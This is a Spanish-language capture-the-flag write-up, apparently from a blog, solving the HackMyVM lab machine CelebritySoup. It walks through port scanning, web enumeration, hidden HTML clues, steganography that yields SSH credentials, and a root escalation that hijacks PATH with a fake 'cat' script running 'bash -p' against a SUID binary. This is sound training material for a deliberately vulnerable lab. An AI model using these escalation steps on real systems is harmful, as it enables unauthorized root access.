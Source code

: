 ```yaml
---
layout      : post
title       : "CelebritySoup - HackMyVm"
author      : elc4br4
image       : /assets/images/HMV/Celebritysoup-HackMyVM/Celebritysoup.webp
optimized_image : /assets/images/HMV/Celebritysoup-HackMyVM/Celebritysoup.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
description : CelebritySoup es una máquina nivel Easy creada por ShellDredd, en la que tendremos un poco de todo, una "larga" enumeración web con cositas muy chulas en cuanto al diseño del CTF, un poco de stego y una escalada bien sencilla tirando de un SUID y jugando un poco con la variable PATH.
---
```


CelebritySoup es una máquina nivel Easy creada por ShellDredd, en la que tendremos un poco de todo, una "larga" enumeración web con cositas muy chulas en cuanto al diseño del CTF, un poco de stego y una escalada bien sencilla tirando de un SUID y jugando un poco con la variable PATH.

### Canal de ShellDredd Informática 
<a href="https://www.youtube.com/c/ShellDreddInform%C3%A1tica">Enlace Canal Youtube Shelldredd Informática</a>

# Reconocimiento de Puertos

Comienzo escaneando puertos, como de costumbre.

![](/assets/images/HMV/Celebritysoup-HackMyVM/rustcan.webp)

Escaneo más avanzado de versiones y servicios.

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:8f:44:53:04:a9:81:ac:f9:3c:4d:6f:c6:bd:61:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCWD3FxSjZsVitvLh+T2H7YXugTHxEEmebRbiiJFDt5BFm+hfELTOCeoQLVNd2GaqYr8sD0GGz5lc7npxfE7Q0xSL6y0HCsEQC/zzmfmPwscqYJV+fk6mwAt8lAh537OB00YZtmt/67kUgW3Xd9udhvT1MiLdk0WNRcjtMotgzs9a0gXk1CUEery/w7pa5CxM9F4uFJ0EclV6Dzdga31ZldU2QqkJWgT1XzDZHYjTEA92GN7kES1stUz/PygGU7C6gXzmTuiBHw9kmdAfzG+KyJUAKt2wZaxqWrNWml7Nwy1iHKCTmrlfkFkwxJ+5Glh3SWVRor0x/8fVRLzuSwvXDX
|   256 fb:12:87:90:45:1c:8b:b7:23:86:aa:a7:2f:be:80:f0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOCjQeru+5a3+VqyTvVo6JZC4aIResbTMoq3J+G3EObG+ic+EycPH92coD1VMS8PMxpW8Bp3lHdbQOV8NJ8eYLE=
|   256 d4:e3:36:6c:d0:20:c3:5b:2d:c6:c5:6b:28:be:f6:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDOruj2FYzeb0QWZZH4K3dcPk04F0iGMvU8iBK5c2l1R
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Section 9
|_http-favicon: Unknown favicon MD5: DE02BF0388A5D040B61481AE073E693D
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos lo siguiente:

> Puerto 21 , 22 , 80 abiertos.

Probé si tenía acceso anónimo el servidor ftp pero no, asique supongo que debemos encontrar credenciales válidas.

Procedo a enumerar el servidor web.


# Enumeración Web

Abro el navegador y accedo al servidor web.

![](/assets/images/HMV/Celebritysoup-HackMyVM/web1.webp)

De primeras no hay nada, y en el código fuente tampoco veo nada que me pueda servir, de forma que procedo a enumerar rutas en el servidor.

![](/assets/images/HMV/Celebritysoup-HackMyVM/feroxbuster.webp)

Como se puede ver, hay varias rutas, pero la que más me llama la atención es el archivo robots.txt, asique voy a ver que tenemos.

![](/assets/images/HMV/Celebritysoup-HackMyVM/robots.webp)

Parece que tenemos varios archivos con extensión html, asique los reviso uno a uno, y a simple vista no parece nada importante, pero revisando el código fuente de los archivos sector(1-10) veo algo raro.

En cada archivo tenemos este patrón que se repite en los demás.

```secret
<div secret1="pu"></div>
<div secret2="pp"></div>
<div secret3="et"></div>
<div secret4="ma"></div>
<div secret5="st"></div>
<div secret6="er"></div>
```
Si unimos estas pistas, encontramos la palabra puppetmaster que podría ser un usuario o una contraseña, pero aún no lo sabemos a ciencia cierta.

En el archivo sector9.html encuentro una especie de artículo

![](/assets/images/HMV/Celebritysoup-HackMyVM/web2.webp)

Al ver que el archivo sector9.html es diferente a los más, pienso que dentro ha de haber una ruta o alguna pista que podría ayudarme a continuar.

Asique voy a probar a crear un diccionario con el contenido de la página usando la herramienta cewl.

> `cewl --with-numbers http://192.168.0.15/sector9.html > diccionario_web.txt`

Una vez generado el diccionario voy a fuzzear en busca de rutas.

![](/assets/images/HMV/Celebritysoup-HackMyVM/feroxbuster2.webp)

Tenemos la ruta project2501.html, asique vamos a ver que hay.

![](/assets/images/HMV/Celebritysoup-HackMyVM/project2501.png)

Puede que la información este escondida dentro de la imágen, pero no me deja descargarla, asique buscando en el código fuente encuentro una fuga en el código web, modding.css

`<link href="modding.css" rel="stylesheet">`

Y encontramos la ruta de la imágen, que ya la podremos descargar y analizarla.

![](/assets/images/HMV/Celebritysoup-HackMyVM/css.webp)

La descargo y analizo con exiftool.

![](/assets/images/HMV/Celebritysoup-HackMyVM/exiftool.webp)

Pero no hay nada oculto... Aunque estoy seguro que hay algo en la imágen, ya que no hay otro hilo del que tirar.

![](/assets/images/HMV/Celebritysoup-HackMyVM/sector10.gif)

A través de una herramienta de esteganografía online adjunto la imágen y me da una cadena encodeada en binario... podría ser un mensaje...

```binary
0110010001101001011001110110100101110100011000010110110000101101011000100111001001100001011010010110111000101101011010010111001100101101011101000111001001100001011011100111001101100011011001010110111001100100011010010110111001100111
```

Lo desencripto:

![](/assets/images/HMV/Celebritysoup-HackMyVM/binary.webp)

Parece una contraseña, alomejor podemos conectarnos a través de ssh usando el usuario puppetmaster y la contraseña digital-brain-is-transcending

![](/assets/images/HMV/Celebritysoup-HackMyVM/ssh.webp)

Hemos tenido userte, las credenciales eran válidas.

Ahora ya puedo leer la flag user.txt, por lo tanto ya pasamos a la parte de escalar privilegios.

![](/assets/images/HMV/Celebritysoup-HackMyVM/user.webp)

# Escalada de Privilegios

Como de costumbre para escalar privilegios primero debemos enumerar para encontrares posibles vectores de escalada.

Antes de nada tenemos en el directorio donde se aloja la flag user.txt un archivo llamado `systeminfo`.

> `-rwsr-xr-x 1 root         root         16712 ene  6  2021 systeminfo`

El archivo systeminfo tiene privilegios SUID, asique voy a ver que contiene este archivo en su interior.

![](/assets/images/HMV/Celebritysoup-HackMyVM/escalada1.webp)

Si nos fijamos tenemos rutas absolutas, excepto en la línea `cat /etc/*release` donde el cat en vez de definirse como /usr/bin/cat se define como cat solamente.

Podríamos aprovecharnos del cat para escalar privilegios, creando un archivo llamado cat añadiéndole cierto contenido en su interior, después lo colocamos en la variable de entorno para que al ejecutar el systeminfo ejecute nuestro cat modificado, por lo tanto ejecute el contenido de su interior.

Lo mostaré paso por paso y lo entenderéis mejor:
 
> Creamos el archivo cat 

`puppetmaster@CelebritySoup:~$ touch cat`

> Añadimos el contenido dentro del archivo

```bash
puppetmaster@CelebritySoup:~$ echo "bash -p" > cat
puppetmaster@CelebritySoup:~$ cat cat
bash -p
```
> Le asiganos permisos de ejecución

`chmod +x cat`

> Lo añadimos la ruta a la variable de entorno PATH

`export PATH=/home/puppetmaster/:$PATH`

> Ejecutamos el archivo systeminfo

```bash
puppetmaster@CelebritySoup:~$ ./systeminfo 


root
uid=0(root) gid=1000(puppetmaster) grupos=1000(puppetmaster),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
CelebritySoup
```

![](/assets/images/HMV/Celebritysoup-HackMyVM/root.webp)

Y ya podemos leer la flag root

![](/assets/images/HMV/Celebritysoup-HackMyVM/root1.webp)
